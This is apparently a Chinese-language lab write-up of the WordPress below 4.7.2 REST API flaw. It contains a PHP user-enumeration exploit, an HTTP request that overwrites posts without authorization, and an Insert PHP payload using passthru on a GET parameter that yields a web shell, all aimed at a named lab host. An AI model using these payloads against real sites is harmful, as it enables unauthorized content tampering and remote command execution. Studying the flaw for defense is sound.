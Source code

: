 # <center>Wordpress < 4.7.2 ue+ci+getshell</center> #

<center>![maccms](pictures/wordpress.png)</center>

## 1.&emsp;漏洞描述 ##

* 漏洞简述： 由于WordPress 4.7.0以后默认开启REST API ，REST API使用户可以以简单的JSON格式访问wordpress的数据，包括用户名、文章内容等。重点是可以通过该功能越权修改任意内容，在使用insert php插件的时候可以导致被getshell。
* 影响版本： wordpress < 4.7.2
* getshell条件: 
	* 开启REST API
	* 安装插件insert php

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;WordPress是一个注重美学、易用性和网络标准的个人信息发布平台。

&emsp;&emsp;该漏洞主要的产生原因是WordPress REST API权限控制不严格。

## 3.&emsp;漏洞分析 ##

&emsp;&emsp;首先看UE(用户名遍历)漏洞的exploit  
	
	#!usr/bin/php
	<?php
	header ('Content-type: text/html; charset=UTF-8');
	  
	$url= "http://localhost/";
	$payload="wp-json/wp/v2/users/";
	$urli = file_get_contents($url.$payload);
	$json = json_decode($urli, true);
	if($json){
	    echo "*-----------------------------*\n";
	foreach($json as $users){
	    echo "[*] ID :  |" .$users['id']     ."|\n";
	    echo "[*] Name: |" .$users['name']   ."|\n";
	    echo "[*] User :|" .$users['slug']   ."|\n";
	    echo "\n";
	}echo "*-----------------------------*";} 
	else{echo "[*] No user";}
	?>


&emsp;&emsp;通过exploit可知它是通过REST API遍历用户名`http://218.2.197.238:22165/wp-json/wp/v2/users`

![codiad](pictures/1.png)

首先进入读取用户信息的函数的代码`wp-includes/rest-api/endpoints/class-wp-rest-users-controller.php`，从代码可以看出要得到这个函数的true值才能获取用户信息。。

![codiad](pictures/2.png)

当我们请求漏洞链接的时候看看几个值是多少  

![codiad](pictures/3.png)

也就是当请求`http://218.2.197.238:22165/wp-json/wp/v2/users`时$reqeusts分别是null、view、name，显然该函数没有起到控制权限的效果，就导致了用户名被获取：

第二看一下修改文章内容漏洞，首先查看网站的页面，有两篇文章：  

![codiad](pictures/4.png)

请求`http://218.2.197.238:22165/wp-json/wp/v2/posts`是得到所有提交的文章相关json信息,id表示文章id，author就是提交的账户id，content是文章的内容：  

![codiad](pictures/5.png)

接下来我们尝试更改文章内容，请求`http://ip:port/wp-json/wp/v2/posts`正常请求包：  

![codiad](pictures/6.png)

再来更改请求包内容：  

![codiad](pictures/7.png)

到首页看看内容，确实内容被更改了，这里只改了id为1的文章，如果要更改其他文章内容可以通过请求`http://218.2.197.238:22165/wp-json/wp/v2/posts/id`方式获得：  

![codiad](pictures/8.png)

更改另一个文章的内容，并访问首页看php代码是否执行：  

	POST /wp-json/wp/v2/posts/9?id=9q HTTP/1.1	
	Content-Type: application/json
	{
	"content":"[insert_php]phpinfo();[/insert_php]"
	}

![codiad](pictures/9.png)

这里php执行要求wordpress安装了插件insert php（允许wordpress页面执行php代码），更改数据包拿flag：  

	{
	"content":"[insert_php]passthru($_GET['bash']);[/insert_php]"
	}

![codiad](pictures/10.png)


## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境源码下载 ###

下载相应版本wordpress(4.7.0或者4.7.1因为默认开启REST API)  

### 4.2&emsp;安装和配置wordpress ###

* 在Linux下直接安装Apache+php5环境，然后将源码导入到/var/www/html文件夹下。
* 启动Apache服务，在浏览器直接访问服务器地址，进入安装页面。配置好wordpress需要的环境
* apache的rewrite模块加载
	* sudo a2enmod rewrite
	* 将/etc/apache2/sites-enabled/000-default.conf文件和Apache配置文件里面的 AllowOverride None 改成 AllowOverride All
	* 重启apache2服务  



### 4.3&emsp;漏洞复现（getshell） ###

1.访问wordpress 4.7.1网站  

2.访问ip:port//wp-json/wp/v2/posts列出所有文章id，这里是1和9.

3.访问ip:port//wp-json/wp/v2/posts用burp抓包，改包。

![codiad](pictures/11.png)
## 5.&emsp;修复意见 ##

&emsp;&emsp;升级wordpress到最新版本  
